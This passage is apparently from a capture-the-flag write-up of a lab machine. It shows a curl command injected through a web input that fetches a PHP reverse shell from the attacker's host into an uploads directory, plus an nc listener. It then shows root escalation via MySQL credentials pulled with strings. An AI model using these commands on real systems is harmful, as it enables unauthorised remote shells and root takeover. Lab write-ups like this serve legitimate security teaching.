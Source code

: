 First, we grab a reverse php webshell from somewhere (like /usr/share/webshells/php on kali, which is also available from pentestmonkey [HERE](http://pentestmonkey.net/tools/web-shells/php-reverse-shell]). After we replace LPORT and LHOST with our own local port number and IP address, we save it in our /var/www/html directory as a .txt file (So it can be read rather than executed). Then we start our local webserver with
```
service apache2 start
```
Now we can use curl to grab this shell and save it for us to access it. Saving it in the base web directory won't work, because when we try, we don't have permissions. Luckily, the dirb scan we'd fired at the beginning has found an uploads directory. These are always a good location to save files, since their reason for existing mean they'll always have write access enabled:

[<img src="{{ site.baseurl }}/images/pentestchallengeuk/2.png"
 style="width: 800px;"/>]({{site.baseurl }}/images/pentestchallengeuk/2.png)

Now we'll use a command like this to grab our shell as a text file, and save it to the uploads directory as a .php file, the bit in angle brackets is what the server is already doing so we don't need to enter it into the input box:
```
<curl> http://<myIPaddress>/shell.txt -o uploads/shell.php
```

and on our own machine, we set up a listener to wait for the connection:
```
nc -lvp <our LPORT>
```

now when we navigate to our uploaded shell in the browser:
```
http://10.0.2.77/uploads/shell.php
```

we can see the connection received by our listener:

[<img src="{{ site.baseurl }}/images/pentestchallengeuk/6.png"
 style="width: 800px;"/>]({{site.baseurl }}/images/pentestchallengeuk/6.png)

in the ctfuser's home directory we find a file called mydbconnchecker. Running it doesn't do much interesting except connect to the database:

[<img src="{{ site.baseurl }}/images/pentestchallengeuk/7.png"
 style="width: 800px;"/>]({{site.baseurl }}/images/pentestchallengeuk/7.png)

but when we run strings on it, we can see the username and password for the mysql connection. Hurray!

[<img src="{{ site.baseurl }}/images/pentestchallengeuk/8.png"
 style="width: 800px;"/>]({{site.baseurl }}/images/pentestchallengeuk/8.png)

Luckily, you can invoke a bash shell from within mysql; so when we log into that and invoke a shell, that shell will be given the same permissions as mysql which is root (as mysql is running under the root user).

[<img src="{{ site.baseurl }}/images/pentestchallengeuk/9.png"
 style="width: 800px;"/>]({{site.baseurl }}/images/pentestchallengeuk/9.png)
